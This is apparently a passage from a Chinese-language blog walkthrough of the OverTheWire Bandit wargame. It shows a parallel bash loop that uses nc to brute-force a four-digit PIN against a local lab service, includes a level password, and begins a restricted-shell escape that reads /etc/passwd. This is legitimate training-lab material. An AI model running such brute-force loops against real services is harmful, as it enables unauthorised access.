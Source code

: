 运行这个脚本，然后你就可以去打几把DOTA了，反正我是挂了一晚上。。。。。 这样当然不行啊，所以就有了后来的改进版本：

```
pass=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in $(seq 0 9999)
do {
if
    echo $pass $i| nc localhost 30002 | grep Wrong > /dev/null
then
    echo $i
else

    echo $pass $i| nc localhost 30002 > result
    exit
fi
}&
done
wait

```

这里用了&和wait实现了伪多线程。&表示可以并行执行，wait表示父进程等待子进程执行完毕。 这样果然快多了 ，只用了几分钟就搞定了。

然而这个脚本并不能在找到正确的密码的时候停止，这个就作为思考题吧。

Level 25 → Level 26
===================

* * *

```
Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

```

这道题，，额，，只能说脑冻好大。

用home目录下的sshkey登陆，Oops:

```
 _                     _ _ _   ___   __
| |                   | (_) | |__ \ / /
| |__   __ _ _ __   __| |_| |_   ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
|_.__/ \__,_|_| |_|\__,_|_|\__|____\___/

```

扔给我这样一个东西。。。 坑爹呢！

```
grep bandit26 /etc/passwd

```
